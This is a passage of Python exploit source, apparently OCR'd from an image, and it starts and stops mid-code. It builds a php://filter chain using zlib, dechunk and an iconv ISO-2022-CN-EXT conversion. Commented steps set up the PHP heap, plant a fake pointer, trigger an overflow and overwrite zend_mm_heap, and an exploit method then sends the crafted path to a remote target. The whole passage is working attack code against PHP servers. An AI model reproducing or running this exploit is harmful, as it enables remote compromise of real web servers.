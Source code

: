 ```python
        step4_use_custom_heap = chunked_chunk(step4_use_custom_heap)
        step4_use_custom_heap = compressed_bucket(step4_use_custom_heap)

        pages = (
            step4 * 3
            + step4_pwn
            + step4_custom_heap
            + step4_use_custom_heap
            + step3_overflow
            + pad * self.pad
            + step1 * 3
            + step2_write_ptr
            + step2 * 2
        )

        resource = compress(compress(pages))
        resource = b64(resource)
        resource = f"data:text/plain;base64,{resource.decode()}"

        filters = [
            # Create buckets
            "zlib.inflate",
            "zlib.inflate",
            
            # Step 0: Setup heap
            "dechunk",
            "convert.iconv.L1.L1",
            
            # Step 1: Reverse FL order
            "dechunk",
            "convert.iconv.L1.L1",
            
            # Step 2: Put fake pointer and make FL order back to normal
            "dechunk",
            "convert.iconv.L1.L1",
            
            # Step 3: Trigger overflow
            "dechunk",
            "convert.iconv.UTF-8.ISO-2022-CN-EXT",
            
            # Step 4: Allocate at arbitrary address and change zend_mm_heap
            "convert.quoted-printable-decode",
            "convert.iconv.L1.L1",
        ]
        filters = "|".join(filters)
        path = f"php://filter/read={filters}/resource={resource}"

        return path

    @inform("Triggering...")
    def exploit(self) -> None:
        path = self.build_exploit_path()
        start = time.time()

        try:
            self.remote.send(path)
        except (ConnectionError, ChunkedEncodingError):
            pass
        
        msg_print()
        
        if not self.sleep:
```